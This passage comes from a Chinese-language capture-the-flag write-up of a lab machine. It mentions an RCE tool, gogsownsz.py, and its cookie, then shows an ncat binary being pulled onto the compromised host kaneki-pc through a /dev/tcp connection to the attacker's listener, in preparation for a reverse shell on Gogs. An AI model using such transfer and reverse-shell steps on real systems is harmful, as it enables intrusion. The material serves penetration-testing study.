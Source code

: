 注意，它使用了 cookie i_like_gogits，可以在 RCE 中使用。查看 gogsownsz.py 的帮助:

![](img/67bcce92c7a6d5e92abf3db6b35337d3.png)

## Gogs 上的反向外壳:

由于 Gogs 服务器与我们的主机没有连接，所以我首先尝试将 ncat 的一个静态二进制文件上传到 kaneki-pc，它会捕获 shell。

```
toor@CJ:~/ghoul$ nc -nlvp 9001 < ncat
Listening on [0.0.0.0] (family 0, port 9001)
Connection from 10.10.10.101 38252 received!
toor@CJ:~/ghoul$ md5sum ncat
1b3b9f07acfe786081d4e52ad67e0983  ncat kaneki_pub@kaneki-pc:/tmp$ cat < /dev/tcp/10.10.14.33/9001 > ncat
^C
kaneki_pub@kaneki-pc:/tmp$ md5sum ncat
1b3b9f07acfe786081d4e52ad67e0983  ncat
kaneki_pub@kaneki-pc:/tmp$
```
